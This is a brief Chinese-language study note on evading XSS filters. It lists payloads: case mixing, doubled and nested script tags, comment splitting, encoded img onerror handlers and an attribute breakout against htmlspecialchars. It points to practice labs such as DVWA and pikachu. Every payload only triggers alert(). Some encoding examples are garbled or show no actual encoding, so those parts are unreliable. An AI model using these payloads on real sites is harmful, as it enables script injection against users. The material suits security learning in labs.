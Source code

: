 # xss过滤

## 一、介绍

程序一般会对xss进行函数的过滤，包括相关函数的替换

## 二、绕或

#### 第一部分 转换

##### 1.大小写替换

<SCrIpt>alert('xss')</sCrIPt>

##### 2、复写

<ssccrript>alert('xss')</ssccrriipptt>

<scripscript>alert('xss')</scriscriptpt>

##### 3、拼凑

<scri<script>pt>alert('xss')</scrip</script>t>

##### 4、注释干扰

<scr<!--jdjjd-->ipt>alert('xss')</scr<!--dhjfjds-->ipt>

#### 第二部分 编码

针对程序对某些字符进行过滤，可以通风编码的方式进行绕过

##### HTML编码

```
<img src=x onerror="alert('1')"/>
```

<imag src=x onerror="alert(xss)"/>

<imag src=x onerror="alert(xss)"/>

##### url编码

```
<img src=x onerror="alert('1234')"/>
```

<imag src=x onerror="alert(%27xss%27)"/>

可能可以绕过，但是解析时会出错

#### 第三部分 Htmlspecialchars()函数

参考链接[PHP htmlspecialchars() 函数](https://www.w3school.com.cn/php/func_string_htmlspecialchars.asp)

该函数会把一些符号进行html实体化

如’‘ “” < <>

```
'onclick='alert(xss)
```

## 四、其他

xss漏洞的原理在于对代码形成闭合，可以存在在href里也可以存在在javascript里

总之，需要不断尝试测试，程序的代码过滤情况，查看源码

推荐练习 xsss-labs DVWA pikachu
